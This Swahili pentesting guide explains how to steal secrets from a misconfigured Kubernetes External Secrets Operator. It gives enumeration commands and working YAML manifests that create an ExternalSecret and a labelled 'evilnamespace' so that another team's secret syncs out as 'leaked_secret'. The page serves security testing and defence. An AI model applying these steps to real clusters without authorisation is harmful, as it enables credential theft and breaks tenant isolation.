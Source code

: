 # Msimamizi wa Nje wa Operatori

**Mwandishi halisi wa ukurasa huu ni** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ukurasa huu unatoa vidokezo jinsi unavyoweza kuiba siri kutoka kwa ESO iliyopangwa vibaya au programu inayotumia ESO kusawazisha siri zake.

## Taarifa ya Kanusho

Mbinu iliyoonyeshwa hapa chini inaweza kufanya kazi tu wakati hali fulani zinakutana. Kwa mfano, inategemea mahitaji yanayohitajika kuruhusu siri isawazishwe kwenye eneo la majina unalomiliki/uliloharibu. Lazima ujipe muda wa kufikiria mwenyewe.

## Mahitaji ya Awali

1. Kuingia kwenye kikundi cha kubernetes / kituo cha openshift na mamlaka ya msimamizi kwenye eneo la majina
2. Upatikanaji wa kusoma angalau ExternalSecret kwenye kiwango cha kituo
3. Tambua ikiwa kuna lebo/maelezo yanayohitajika au uanachama wa kikundi unahitajika kuruhusu ESO kusawazisha siri yako. Ikiwa una bahati, unaweza kuiba siri iliyoelezwa kwa uhuru. 

### Kukusanya Taarifa kuhusu Hifadhi ya Siri ya Kituo cha Kikundi Inayopo

Kukisia kwamba una watumiaji ambao wana haki za kutosha kusoma rasilimali hii; anza kwa kwanza kuorodhesha _**Hifadhi za Siri za Kituo cha Kikundi**_.
```sh
kubectl get ClusterSecretStore
```
### Uchambuzi wa ExternalSecret

Fikiria umepata ClusterSecretStore iliyoitwa _**mystore**_. Endelea kwa kuchambua externalsecret zake zinazohusiana.
```sh
kubectl get externalsecret -A | grep mystore
```
_Chanzo hiki kina eneo la kikoa kwa hivyo isipokuwa tayari unajua eneo la kutafuta, ongeza chaguo la -A ili kutafuta katika maeneo yote._

Unapaswa kupata orodha ya externalsecret iliyofafanuliwa. Hebu tufikirie umepata kitu cha externalsecret kinachoitwa _**mysecret**_ kilichofafanuliwa na kutumiwa na eneo la kikoa la _**mynamespace**_. Kusanya taarifa zaidi kuhusu aina ya siri inayoshikilia.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Kuunganisha vipande

Kutoka hapa unaweza kupata jina la siri moja au zaidi (kama ilivyoelezwa katika rasilimali ya Siri). Utapata matokeo kama haya:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hadi sasa tumepata:

* Jina la ClusterSecretStore
* Jina la ExternalSecret
* Jina la siri

Sasa tukiwa na kila kitu tunachohitaji, unaweza kuunda ExternalSecret (na hatimaye kusasisha/kuunda Namespace mpya ili kuzingatia mahitaji yanayohitajika ili kupata siri yako mpya isawazishwe):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Baada ya dakika chache, ikiwa hali za usawazishaji zimetimizwa, unapaswa kuweza kuona siri iliyovuja ndani ya nafasi yako ya jina.
```sh
kubectl get secret leaked_secret -o yaml
```
## Marejeo

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
